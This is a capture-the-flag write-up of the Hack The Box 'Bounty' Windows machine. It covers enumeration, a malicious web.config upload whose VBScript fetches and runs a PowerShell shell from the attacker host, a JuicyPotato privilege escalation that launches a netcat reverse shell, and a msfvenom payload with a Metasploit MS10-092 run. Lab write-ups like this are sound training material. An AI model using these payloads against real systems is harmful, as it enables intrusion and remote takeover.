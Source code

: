 ```yaml
---
title: "HTB Bounty Writeup"
date: 2023-08-28
tags: ["CTF","Security"]
description: "Good, Old Fashioned, Windows."
draft: false 
type: page
---
```


# HTB "Bounty" Writeup


This was a windows box that taught me some new techniques and refreshed some old ones.

## Enumeration

Started out with nmap and found only 80 open indicating a webserver.

```bash
# Nmap 7.94 scan initiated Sat Aug 26 12:43:21 2023 as: nmap -sC -sV -vv -oA bounty 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up, received syn-ack (0.041s latency).
Scanned at 2023-08-26 12:43:21 EDT for 16s
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Browsing to the page indicates only an image of a wizard, named merlin.

Now I decided to do some dirbusting, since I didn't have a hostname or any other ports.

```bash
[~/htb/bounty]$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/08/28 15:07:51 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/*checkout*.aspx      (Status: 400) [Size: 11]
/*docroot*.aspx       (Status: 400) [Size: 11]
/*.aspx               (Status: 400) [Size: 11]
/http%3A%2F%2Fwww.aspx (Status: 400) [Size: 11]
/http%3A.aspx         (Status: 400) [Size: 11]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/q%26a.aspx           (Status: 400) [Size: 11]
/**http%3a.aspx       (Status: 400) [Size: 11]
/*http%3A.aspx        (Status: 400) [Size: 11]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
```

This gave us two locations, `transfer.aspx` which was a file upload and `/uploadedfiles` which is the directory where we could find our uploaded files.

## Footfold

A quick test reveals that jpg files are allowed, while aspx files are being blocked. I got around the filter using .aspx.jpg but this wouldn't execute. Getting a common list of extensions from burp and testing them out, it looks like .config is allowed.

![](attachment/61d09f8523a6a2970890061e04b7e9a3.png)

I didn't really know what to do with this though, so I referred to the resourves from the walk through and found out that this is similar to overwriting the .htaccess files on a linux web server to execute code.
- https://github.com/JoshMorrison99/web.config-File-Upload-RCE-Check/blob/main/revshell.config
- https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/

I uploaded the following shell:

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')")
%>
```

The shell.ps1 file is the standard nishang one line shell.

Now we have code execution.
## Privesc

I went to get the flag, but alas, it wasn't there!

Turns out it was just hidden and could be revealed with some Powershell trickery (it is on my list to learn more powershell).

Now it was time to do some standard enumeration on the box.

Getting my users privileges revealed SeImpersonate, which is an indicator a Potato attack may be possible.

```
PS C:\users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I loaded up my potato, started up my listener, and then I was root.

```
PS C:\users\merlin\desktop> ./JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.19 7777" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

systeminfo (also the guide when I looked afterwards) revealed that this was a quite out of date version of windows, Windows 2008. We can run the metasploit exploit suggester module after getting a session and seeing what else we find

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=5555 -f exe > shell.exe
```

MS10-092 was one of many potential exploits and this one works.

```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.19:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Preparing payload at C:\Windows\TEMP\vVygyJpVGdTPU.exe
[*] Creating task: O0LGFkLqDWzc9
[*] Reading the task file contents from C:\Windows\system32\tasks\O0LGFkLqDWzc9...
[*] Original CRC32: 0xd2ff3655
[*] Final CRC32: 0xd2ff3655
[*] Writing our modified content back...
[*] Validating task: O0LGFkLqDWzc9
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Executing the task...
[*] Sending stage (240 bytes) to 10.10.10.93
[*] Command shell session 3 opened (10.10.14.19:6666 -> 10.10.10.93:49175) at 2023-08-28 16:04:39 -0400
[*] Deleting task O0LGFkLqDWzc9...


Shell Banner:
Microsoft Windows [Version 6.1.7600]
-----


C:\Windows\system32>whoami
whoami
nt authority\system
```

I got the flag at this point and got out of there.
